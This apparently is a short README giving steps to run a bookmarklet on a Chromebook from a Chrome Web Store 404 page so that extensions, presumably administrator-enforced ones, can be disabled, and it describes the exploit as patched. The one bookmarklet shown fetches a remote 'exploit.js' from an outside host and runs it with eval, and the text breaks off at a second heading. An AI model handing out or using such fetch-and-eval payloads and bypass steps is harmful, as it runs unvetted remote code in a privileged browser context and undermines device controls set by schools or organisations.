 1. Copy the Javascript code from either of the two bookmarklets below
2. Make a new bookmark on your Chromebook
3. Put the Javascript code in the URL section of the bookmark
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. If that page does not work, you can just change the end of the URL to anything else, like https://chrome.google.com/webstoreYAAAAAAAAAAAAAAAY
6. Click on the bookmark you made
7. Switch off the extensions you don't want to have anymore.
8. You're done! The extension should now be disabled. 

**Please note that this exploit has been patched for quite some time**

### Bookmarklets

#### CompactCow GUI

![compactcowgui](img/compactcow.png)

```js
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

#### Ingot
